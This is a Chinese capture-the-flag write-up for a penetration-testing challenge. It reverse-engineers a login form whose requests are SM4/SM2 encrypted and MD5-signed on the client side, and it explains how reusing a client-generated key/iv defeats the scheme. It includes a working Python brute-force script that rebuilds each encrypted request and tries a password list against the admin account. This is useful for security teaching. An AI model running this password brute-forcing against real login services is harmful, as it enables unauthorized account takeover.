



# 渗透测试

## 题目简述

题目表面是登录密码爆破，并给出约两万行密码本，但登录请求和响应都被客户端加密。抓包后请求体是 Base64 包裹的 JSON，包含 `p`、`q`、`n` 三个字段：`p` 是业务登录数据的 SM4-CBC 密文，`q` 是 SM2 加密后的 SM4 `key/iv`，`n` 是签名。

JS 调试可还原签名格式：

```text
md5(business_json + "|Infernity|" + key_iv_json)
```

业务 JSON 中包含 `userName`、`passWord`、`timeStamp` 和随机 `TOKEN`。由于 SM4 的 `key/iv` 在客户端生成后再通过 `q` 发给服务端，可以固定复用一组已知 `key/iv` 与对应的 `q`，爆破时只需要为每个候选密码重新计算 `p` 和 `n`。

## 解题过程

开局一个登录框，给了一个两万行的密码本，题目意思就是爆破密码了。
首先抓包：



可以看到请求体和响应体全都是加密的，请求体base64解码后的内容是：

```
{"p":"a32ab49c9cee9a7e9b564e872a39397b50d8ab930140c477a4cd9e9e42045fe9278b8319f
8ac20aa977f30209935fe159ae08c0216c0ecdf9de058597532ff9ac0c5b299215fd38d48c961b1
5a142924425da56ebd14afddb934221e8b06b7e35ee50e84cd41d17e4901c6fbc1dfbced","q":"
935fc514baa60453fc0074f9926586863510f94693c95e364b1312310d2df1fbe2819c04431d19d
e25080c4a98e55a8afbb927f315df9c93c8916a21350d06a3423e57a91b8a98e368a09a805b2366
4bef696e02b96252401c4f8b4253e5c475903464c1a9501bddd8474118825a3ccf5bb9d826f92e5
812e2d61d5441dd0293ac45327ab8771f2a1707385619058c2837b69a19cfc22fccae6107a178a7
b7e2f60be309dc6288e3c64ef415a99a79e24c77","n":"a97d3269dd752f456a8abb2627b2d169
"}
```

有三个参数，都是加密的，那这里肯定是需要进行js调试了。
这里用AntiDebug Breaker这个谷歌浏览器插件，hook一下对称加密和非对称加密。



然后刷新页面重新发包。

hook 输出可以直接验证 `n` 是下面这段字符串的 MD5：

```text
{"userName":"admin","passWord":"123456","timeStamp":1769825364395,"TOKEN":"66454ff0ad645b5c35c53e5e4d50dc7a"}|Infernity|{"key":"b53046c2e458e53761f91c439d61440b","iv":"186ebca64fcb0842e4478e48dfb24c3a"}
=> 59c4e37c4527bd48bb0f619602cb2be5
```

可以看到，请求体里的n字段，起到了一个类似签名的作用，把

{"userName":"admin","passWord":"123456","timeStamp":1769825364395,"TOKEN":"66454ff
0ad645b5c35c53e5e4d50dc7a"}|Infernity|
{"key":"b53046c2e458e53761f91c439d61440b","iv":"186ebca64fcb0842e4478e48dfb24c3a"}
是这一长串md5加密后的值。在业务数据里除了username和password字段外，还有时间戳和token，这个token的
作用是防止重放攻击，多抓几个包会发现每次都是随机的，原始数据是uuid，这里只要与之前的token不同即可。
同时，这里还给出了

{"key":"b53046c2e458e53761f91c439d61440b","iv":"186ebca64fcb0842e4478e48dfb24c3a"
} 一对对称加密key和iv，但是不知道加密方法，那就来调试一下。

在插件的 `hookjs` 里打断点后，根据调用栈回到 `1.js` 的加密部分，可以看到业务数据和请求体字段的赋值。关键变量关系可以直接整理成：

```javascript
business = {
  userName: "admin",
  passWord: "123456",
  timeStamp: Date.now(),
  TOKEN: md5(uuid())
};

keyIv = {
  key: "b53046c2e458e53761f91c439d61440b",
  iv: "186ebca64fcb0842e4478e48dfb24c3a"
};

p = sm4_cbc_encrypt(JSON.stringify(business), keyIv.key, keyIv.iv);
q = sm2_encrypt(JSON.stringify(keyIv), public_key);
n = md5(JSON.stringify(business) + "|Infernity|" + JSON.stringify(keyIv));
```

继续调试可确认对称加密方法是 SM4-CBC；`q` 是 SM2 加密后的 `key/iv`，公钥是 `04` 开头的未压缩椭圆曲线公钥。由于 key 和 IV 由客户端生成后发给服务端，脚本爆破时可以固定复用同一组 `key/iv` 和对应的 `q`，只需要为每个候选密码重新计算 `p` 与 `n`。

```
0405e2169f794a08c63c75b5a5bcc0c9adb857177d76ea3b0f4afa168fb1f0854e5c68df39ba3cd
2baecf1a236aaa049a562971c868c5102bc387152489e139e3e
```

但其实，在真正写脚本的时候，由于key和iv是客户端生成加密后发给服务端的，我们完全可以利用同一对key和
iv，所以非对称加密的内容就可以一直不变，加快脚本速度。
这里就用

{"key":"b53046c2e458e53761f91c439d61440b","iv":"186ebca64fcb0842e4478e48dfb24c3a"
} 所对应的q值就好了：

```
f0d7c63e57aac6e9e02f1d14f928121f7790e3e87a489c7e766792a986da36ecbcf09f778355415
9e2befb1cfbc91e969b44dde1c54e754a34447a97a0677388f5826ce825d5ea1fa6ba75c82b50a2
d9d4f417d448f9b443b203f76ffff0678d64510ed4e5c11983a160fe157e09ffd42b72fd26ded62
150676520d72d93718c87055422eee55194f961ef34e6321d024722f256412471d932a458d99729
1772056c734cca6042c7fe7ccc4ab8f2b5e8b8b2
```

这是一个很经典的非对称加密加密对称加密密钥，用对称加密来加密业务数据，并附带时间戳、签名等防篡改，
防重放的场景。
一切都准备好了，写脚本重复读取密码本里的密码爆破即可。

```python
import base64
import hashlib
import json
import time
import uuid

import requests
from gmssl.sm4 import CryptSM4, SM4_ENCRYPT

KEY_HEX = "b53046c2e458e53761f91c439d61440b"
IV_HEX = "186ebca64fcb0842e4478e48dfb24c3a"
KEY_IV_JSON = '{"key":"%s","iv":"%s"}' % (KEY_HEX, IV_HEX)

# 这是上述 key/iv 对应的 SM2 封装结果；爆破时可以固定复用。
Q_FIXED = (
    "f0d7c63e57aac6e9e02f1d14f928121f7790e3e87a489c7e766792a986da36ec"
    "bcf09f7783554159e2befb1cfbc91e969b44dde1c54e754a34447a97a0677388"
    "f5826ce825d5ea1fa6ba75c82b50a2d9d4f417d448f9b443b203f76ffff0678"
    "d64510ed4e5c11983a160fe157e09ffd42b72fd26ded62150676520d72d9371"
    "8c87055422eee55194f961ef34e6321d024722f256412471d932a458d997291"
    "772056c734cca6042c7fe7ccc4ab8f2b5e8b8b2"
)


def sm4_cbc_encrypt_hex(plaintext: str) -> str:
    crypt = CryptSM4()
    crypt.set_key(bytes.fromhex(KEY_HEX), SM4_ENCRYPT)
    return crypt.crypt_cbc(bytes.fromhex(IV_HEX), plaintext.encode()).hex()


def build_body(password: str) -> str:
    business = {
        "userName": "admin",
        "passWord": password.strip(),
        "timeStamp": int(time.time() * 1000),
        "TOKEN": hashlib.md5(str(uuid.uuid4()).encode()).hexdigest(),
    }
    business_str = json.dumps(business, separators=(",", ":"))
    sign_str = business_str + "|Infernity|" + KEY_IV_JSON
    payload = {
        "p": sm4_cbc_encrypt_hex(business_str),
        "q": Q_FIXED,
        "n": hashlib.md5(sign_str.encode()).hexdigest(),
    }
    return base64.b64encode(json.dumps(payload).encode()).decode()


with open("100319_passwords.txt", encoding="utf-8") as f:
    for password in f:
        body = build_body(password)
        res = requests.post("http://<target>/login", data=body, timeout=5)
        if res.text != "192BZDxZBFoxPHmHoZSdYQ==":
            print(password.strip())
            break
```

最后爆破出来密码是5V26s9dBZQVBZgyyVC00baeW ，登录获取flag：



## 方法总结

遇到“前端加密登录 + 密码本”的题，先不要直接爆破密文接口，而是调试 JS 找出业务明文、对称加密参数、非对称封装参数和签名字段的拼接顺序。混合加密里如果对称密钥由客户端生成，且服务端不强制一次一密，就可以复用已封装的 `q`，把爆破成本降到本地 SM4 加密和 MD5 签名重算。
